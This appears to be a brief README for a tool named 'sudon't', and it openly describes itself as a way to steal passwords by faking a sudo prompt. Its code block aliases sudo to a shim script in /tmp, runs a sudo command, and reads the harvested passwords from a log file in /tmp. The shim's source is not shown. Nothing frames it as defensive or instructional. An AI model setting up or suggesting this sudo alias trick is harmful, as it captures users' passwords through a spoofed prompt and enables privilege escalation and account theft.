 # sudon't

Steal passwords by faking a sudo prompt.

```
alias sudo="/tmp/sudo-shim.sh"

sudo ls /

cat /tmp/passwdlog.txt
```

